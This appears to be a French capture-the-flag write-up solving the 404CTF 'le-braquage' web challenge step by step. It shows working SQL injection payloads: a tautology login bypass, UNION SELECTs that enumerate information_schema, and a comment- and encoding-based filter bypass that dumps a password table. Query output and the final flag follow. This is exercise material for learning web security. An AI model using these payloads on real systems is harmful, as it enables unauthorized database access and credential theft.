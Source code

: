 > Vous êtes sur une affaire de cambriolage. D’après vos informations, un criminel surnommé TITI a prévu une rencontre avec ses complices pour préparer son prochain casse.
> 
> Heureusement, votre équipe est parvenu à trouver un site qu’ils utilisent. Ce site leur permet de communiquer et d’échanger des lieux de rendez-vous ainsi que des fausses identités. A vous d’exploiter cette base de données pour obtenir des informations sur le suspect et son opération : nom, prénom, adresse visée, date du casse, heure du casse, téléphone, mot de passe.
> 
> Les différents morceaux de flag sont sous la forme : 404CTF{Nom},404CTF{Prénom},404CTF{Adresse},404CTF{Date},404CTF{Heure},404CTF{Téléphone},404CTF{Mdp}

1. Sur https://le-braquage.404ctf.fr/scripts/page1.php:
- Identifiant: `' OR ''='`
- Pseudonyme: `ARKANYOTA`

```nushell
╭───┬─────────┬────────────┬────────────────────┬──────────────────────────┬───────────────────╮
│ # │ Id      │ Pseudonyme │ Téléphone          │ Adresse                  │ Code              │
├───┼─────────┼────────────┼────────────────────┼──────────────────────────┼───────────────────┤
│ 0 │ 1       │ RIRI       │ 0145489625         │ 5 avenue des groseilles  │ OpérationEpervier │
│ 1 │ 2       │ FIFI       │ 0145889625         │ 1 rue des myrtilles      │ OpérationFaucon   │
│ 2 │ 3       │ LOULOU     │ 0115789625         │ 1 rue des pommes         │ OpérationFaucon   │
│ 3 │ 456     │ JAJA       │ 0145769625         │ 1 rue des pommes         │ OpérationGorfou   │
│ 4 │ 472     │ RORO       │ 0189999625         │ 5 boulevard des poires   │ OpérationFaucon   │
│ 5 │ 7456    │ TITI       │ 404CTF{0145769456} │ 404CTF{21 rue des kiwis} │ OpérationGorfou   │
│ 6 │ 7865    │ DEDE       │ 0145781225         │ 3 avenue des oranges     │ OpérationMouette  │
│ 7 │ 16579   │ DIDI       │ 0145789625         │ 1 rue des pommes         │ OpérationEpervier │
╰───┴─────────┴────────────┴────────────────────┴──────────────────────────┴───────────────────╯
```

On a donc pour le moment `404CTF{Nom},404CTF{Prénom},404CTF{21 rue des kiwis},404CTF{Date},404CTF{Heure},404CTF{0145769456},404CTF{Mdp}` et Code = OpérationGorfou

2. Sur https://le-braquage.404ctf.fr/scripts/page2.php:
- Identifiant: `' OR ''='' UNION SELECT table_name, column_name FROM information_schema.columns WHERE ''='`

```nushell
╭────┬──────────────┬────────────────────────────────────────────────────────────────────╮
│ #  │    Pseudo    │                            Coopérative                             │
├────┼──────────────┼────────────────────────────────────────────────────────────────────┤
│  0 │ DEDE         │ Collaboration des négociants de minerais de Franche-Comté          │
│  1 │ DIDI         │ Association des vendeurs d'or de France                            │
│  2 │ FIFI         │ Corporation des fournisseurs de pierres précieuses d'Île-de-France │
│  3 │ JAJA         │ Regroupement des marchands de joyaux d'Ille-et-Vilaine             │
│  4 │ LOULOU       │ Association des vendeurs d'or de France                            │
│  5 │ RIRI         │ Association des vendeurs d'or de France                            │
│  6 │ RORO         │ Corporation des fournisseurs de pierres précieuses d'Île-de-France │
│  7 │ TITI         │ Regroupement des marchands de joyaux d'Ille-et-Vilaine             │
│  8 │ .            │ .                                                                  │
│  9 │ .            │ .                                                                  │
│ 10 │ .            │ .                                                                  │
│ 11 │ cooperatives │ pseudo                                                             │
│ 12 │ cooperatives │ cooperative                                                        │
│ 13 │ Users        │ id                                                                 │
│ 14 │ Users        │ nom                                                                │
│ 15 │ Users        │ prenom                                                             │
╰────┴──────────────┴────────────────────────────────────────────────────────────────────╯```
```

- Identifiant: `' OR ''='' UNION SELECT nom, prenom FROM Users WHERE ''='`

```nushell
╭────┬────────────────┬────────────────────────────────────────────────────────────────────╮
│ #  │     Pseudo     │                            Coopérative                             │
├────┼────────────────┼────────────────────────────────────────────────────────────────────┤
│  0 │ DEDE           │ Collaboration des négociants de minerais de Franche-Comté          │
│  1 │ DIDI           │ Association des vendeurs d'or de France                            │
│  2 │ FIFI           │ Corporation des fournisseurs de pierres précieuses d'Île-de-France │
│  3 │ JAJA           │ Regroupement des marchands de joyaux d'Ille-et-Vilaine             │
│  4 │ LOULOU         │ Association des vendeurs d'or de France                            │
│  5 │ RIRI           │ Association des vendeurs d'or de France                            │
│  6 │ RORO           │ Corporation des fournisseurs de pierres précieuses d'Île-de-France │
│  7 │ TITI           │ Regroupement des marchands de joyaux d'Ille-et-Vilaine             │
│  8 │ Assin          │ Marc                                                               │
│  9 │ Outan          │ Laurent                                                            │
│ 10 │ Gator          │ Ali                                                                │
│ 11 │ Reptile        │ Eric                                                               │
│ 12 │ Culé           │ Roland                                                             │
│ 13 │ 404CTF{Vereux} │ 404CTF{UnGorfou}                                                   │
│ 14 │ Abbé           │ Oscar                                                              │
│ 15 │ Conda          │ Anna                                                               │
╰────┴────────────────┴────────────────────────────────────────────────────────────────────╯
```

On a donc pour le moment `404CTF{Vereux},404CTF{UnGorfou},404CTF{21 rue des kiwis},404CTF{Date},404CTF{Heure},404CTF{0145769456},404CTF{Mdp}`

3. Sur https://le-braquage.404ctf.fr/scripts/page3.php:

- Code: `OpérationGorfou`
```nushell
╭───┬─────────────────┬────────────────────┬────────────────────╮
│ # │      Code       │        Date        │       Heure        │
├───┼─────────────────┼────────────────────┼────────────────────┤
│ 0 │ OpérationGorfou │ 404CTF{2022-07-14} │ 404CTF{01hDuMatin} │
╰───┴─────────────────┴────────────────────┴────────────────────╯
```
On a donc pour le moment `404CTF{Vereux},404CTF{UnGorfou},404CTF{21 rue des kiwis},404CTF{2022-07-14},404CTF{01hDuMatin},404CTF{0145769456},404CTF{Mdp}`

4. Sur https://le-braquage.404ctf.fr/scripts/page3.php:
> Doc: https://portswigger.net/support/sql-injection-bypassing-common-filters

- Code: `'OR''=''UNION/**/S%45lect/**/table_name,column_name,1/**/FROM/**/information_schema.columns/**/WHERE''='`
```nushell
╭────┬───────────────────┬────────────────────┬────────────────────╮
│ #  │       Code        │        Date        │       Heure        │
├────┼───────────────────┼────────────────────┼────────────────────┤
│  1 │ OpérationEpervier │ 2021-11-02         │ 19h                │
│  2 │ OpérationMouette  │ 2021-09-14         │ 19h                │
│  3 │ OpérationFaucon   │ 2022-01-01         │ 20h                │
│  4 │ OpérationGorfou   │ 404CTF{2022-07-14} │ 404CTF{01hDuMatin} │
│  5 │ .                 │ .                  │ 1                  │
│  6 │ .                 │ .                  │ 1                  │
│  7 │ .                 │ .                  │ 1                  │
│  8 │ Rdv               │ code               │ 1                  │
│  9 │ Rdv               │ dateRdv            │ 1                  │
│ 10 │ Rdv               │ heureRdv           │ 1                  │
│ 11 │ Password          │ id                 │ 1                  │
│ 12 │ Password          │ mdp                │ 1                  │
╰────┴───────────────────┴────────────────────┴────────────────────╯
```

- Code: `'OR''=''UNION/**/S%45lect/**/id,mdp,1/**/FROM/**/Password/**/WHERE''='`

```nushell
╭────┬───────────────────┬──────────────────────────┬────────────────────╮
│ #  │       Code        │           Date           │       Heure        │
├────┼───────────────────┼──────────────────────────┼────────────────────┤
│  1 │ OpérationEpervier │ 2021-11-02               │ 19h                │
│  2 │ OpérationMouette  │ 2021-09-14               │ 19h                │
│  3 │ OpérationFaucon   │ 2022-01-01               │ 20h                │
│  4 │ OpérationGorfou   │ 404CTF{2022-07-14}       │ 404CTF{01hDuMatin} │
│  5 │ 1                 │ d7uA9kYU3                │ 1                  │
│  6 │ 2                 │ 5qKrD4F7p                │ 1                  │
│  7 │ 3                 │ SXq3rZ35v                │ 1                  │
│  8 │ 456               │ FGp4Q93tk                │ 1                  │
│  9 │ 472               │ qJB5y45Xe                │ 1                  │
│ 10 │ 7456              │ 404CTF{GorfousAuPouvoir} │ 1                  │
│ 11 │ 7865              │ S5eN2p5Wj                │ 1                  │
│ 12 │ 16579             │ T3h98HdFy                │ 1                  │
╰────┴───────────────────┴──────────────────────────┴────────────────────╯
```

| `404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}` |
|-------------------------------------------------------------------------------------|
